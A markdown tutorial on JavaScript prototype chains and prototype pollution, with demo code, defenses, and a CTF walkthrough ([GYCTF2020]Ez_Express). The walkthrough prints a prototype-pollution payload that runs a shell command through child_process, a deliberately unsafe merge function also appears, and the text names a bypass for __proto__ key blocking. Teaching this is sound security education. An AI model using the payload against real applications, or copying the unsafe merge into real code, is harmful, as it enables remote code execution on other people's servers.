

# JavaScript Prototype Pollution

## Introduction

Prototype pollution is a vulnerability injecting values that overwrite or pollute the “prototype” of a base object to compromise the application, which could lead to DoS, RCE, XSS, etc.

## Prototype chain

> 💫 **JS features: everything is an object(except primitives)**

- **Every JavaScript object has the **proto**  attribute**, and **every object inherits Prototypes**, whenever a Prototype is added, it is inherited by all objects in the prototype chain.
- When we create a function in JavaScript, JavaScript engine will create an object (the prototype object of the function)automatically.
- The function has a property called prototype, which points to the prototype object.
- The prototype object has a constructor property, which points back to the function.
- `Foo.prototype.constructor === Foo` is true

### `__proto__` & prototype

- Every object is constructed by a constructor function
- Every object has a `__proto__` property that points to the constructor function’s prototype object.
- `object.__proto__ === constructor.prototype` is true

```jsx
function Foo() {
  this.bar = 1;
}

Foo.prototype = {
  method: function () {
    console.log(this.bar);
  },
};

let foo = new Foo();

console.log(foo.__proto__); // { method: [Function: method] }
console.log(foo.__proto__.__proto__); // [Object: null prototype] {}
console.log(foo.__proto__.__proto__.__proto__); // null
console.log(Foo.prototype); // { method: [Function: method] }
console.log(foo.__proto__ === Foo.prototype); // true

/* output
{ method: [Function: method] }
[Object: null prototype] {}
null
{ method: [Function: method] }
true
*/
```

prototype chain: `foo → Foo.prototype → Object.prototype → null`

Here’s a more intuitive picture



The end of the prototype chain is null.

### Inherit

```jsx
function Father() {
  this.first_name = "Drederick";
  this.last_name = "Irving";
}

function Son() {
  this.first_name = "Kyrie";
}

Son.prototype = new Father();

let son = new Son();
console.log(`Name: ${son.first_name} ${son.last_name}`); // Name: Kyrie Irving

console.log(son); // Father { first_name: 'Kyrie' }
console.log(son.__proto__); // Father { first_name: 'Drederick', last_name: 'Irving' }
console.log(son.__proto__.__proto__); // {}
console.log(son.__proto__.__proto__.__proto__); // [Object: null prototype] {}
console.log(son.__proto__.__proto__.__proto__.__proto__); // null
console.log(Father.prototype); // {}
console.log(son.__proto__.__proto__ === Father.prototype); // true

/* output
Name: Kyrie Irving
Father { first_name: 'Kyrie' }
Father { first_name: 'Drederick', last_name: 'Irving' } 
{}
[Object: null prototype] {}
null
{}
true
*/
```

When finding the value of a property, JavaScript will look for it in the object itself, then in its prototype, then in the prototype of the prototype, and so on until it finds the property or reaches the end of the prototype chain, which is null.

### Other relevant methods in JavaScript

- `hasOwnProperty()`: returns a boolean indicating whether the object has the specified property as its own property (as opposed to inheriting it).
- `in`: returns a boolean indicating whether the object has the specified property.

## Prototype Pollution

If we revise the value of `foo.__proto__`, we can change the value of Foo.prototype or Object.prototype. Below is an easy example:

```jsx
let foo = { bar: 1 };
console.log(foo.bar); // 1

foo.__proto__.bar = 2;
console.log(foo.bar); // 1

let zoo = {};
console.log(zoo.bar); // 2

/* output
1
1
2
*/
```

In what cases can we pollute the prototype?

- Object merge
- object clone (core: merge object to be cloned to the target object)

below is an example of object merge:

```jsx
function merge(target, source) {
  for (let key in source) {
    console.log(key);
    if (key in source && key in target) {
      merge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
}

let o1 = {};

// let o2 = { a: 1, __proto__: { b: 2 } };
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}');

merge(o1, o2);

var o3 = {};

console.log(o1, "|", o1.__proto__, "|", o1.__proto__.__proto__);
console.log(o2, "|", o2.__proto__, "|", o2.__proto__.__proto__);
console.log(o3, "|", o3.__proto__, "|", o3.__proto__.__proto__);

function Foo() {
    this.bar = 1
    this.show = function() {
        console.log(this.bar)
    }
}

(new Foo()).show()

/* output: let o2 = { a: 1, __proto__: { b: 2 } };
a
b
{ a: 1, b: 2 } | [Object: null prototype] {} | null     
{ a: 1 } | { b: 2 } | [Object: null prototype] {}       
{} | [Object: null prototype] {} | null
1
*/

/* output: let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}');
a
__proto__
b
{ a: 1 } | [Object: null prototype] { b: 2 } | null     
{ a: 1, ['__proto__']: { b: 2 } } | { b: 2 } | [Object: null prototype] { b: 2 }
{} | [Object: null prototype] { b: 2 } | null
1
*/
```

If we directly let o2 equal to `{ a: 1, __proto__: { b: 2 } }`, `o2["__proto__"] = { b: 2 };` won't be parse as key value pair, but the prototype of o2. However, if we use `JSON.parse('{"a": 1, "__proto__": {"b": 2}}');`, it will be parsed as key value pair.

## Examples

### [GYCTF2020]Ez_Express

the part of prototype pollution in the source code:

```jsx
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a;
};
const clone = (a) => {
  return merge({}, a);
};

router.post("/action", function (req, res) {
  if (req.session.user.user != "ADMIN") {
    res.end("<script>alert('ADMIN is asked');history.go(-1);</script>");
  }
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");
});

router.get("/info", function (req, res) {
  res.render("index", (data = { user: res.outputFunctionName }));
});
```

Combine the above code with the vulnerability of `res.render`(don't introduce here), the payload is `let a = {__proto__: {outputFunctionName:"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');//"}};` when sending a POST request to `/action`.

## Defense methods

### block the `__proto__` key when performing operations on objects

But there is a bypass method like `foo["constructor"]["prototype"]["bar"] = 2;`, so these methods need to be blocked together to ensure safety.

### Use `Object.create(null)` to create a pure object

This can create an empty object without the `__proto__` property, a truly empty object with no methods. Because of this, there won't be any prototype pollution

Avoid directly modifying the prototype of built-in objects, such as `Object.prototype` or `Array.prototype`. Modifying the prototype of built-in objects affects all objects created through these prototypes, leading to unpredictable consequences.

### Use ES6 `class` syntax

Using `class` syntax to define objects helps reduce the chance of directly manipulating the prototype. `class` syntax is more modern and structured, which helps improve code readability and maintainability.

## Conclusion

The concept of prototypes that everyone is familiar with in frontend development has become a common attack technique in the field of security.

> If it runs, it can be cracked!
